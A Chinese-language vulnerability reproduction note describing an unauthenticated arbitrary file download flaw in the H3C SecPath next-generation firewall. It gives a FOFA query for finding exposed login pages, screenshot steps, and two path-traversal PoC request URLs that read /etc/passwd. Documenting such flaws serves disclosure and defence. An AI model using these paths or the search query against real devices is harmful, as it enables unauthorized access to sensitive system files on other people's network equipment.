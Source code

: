 # H3C SecPath 下一代防火墙  任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

> [!NOTE]
>
> H3C SecPath

## FOFA

> [!NOTE]
>
> title="Web user login"

## 漏洞复现

登录页面如下

![image-20210604115315360](http://wikioss.peiqi.tech/vuln/image-20210604115315360.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

存在漏洞点的功能有两个

![image-20210604115351314](http://wikioss.peiqi.tech/vuln/image-20210604115351314.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

点击下载抓包更改请求

![image-20210604115431531](http://wikioss.peiqi.tech/vuln/image-20210604115431531.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

并且在未身份验证的情况中，也可以请求下载敏感文件

验证POC

```
/webui/?g=sys_dia_data_down&file_name=../etc/passwd

/webui/?g=sys_capture_file_download&name=../../../../../../../../etc/passwd 
```

​	

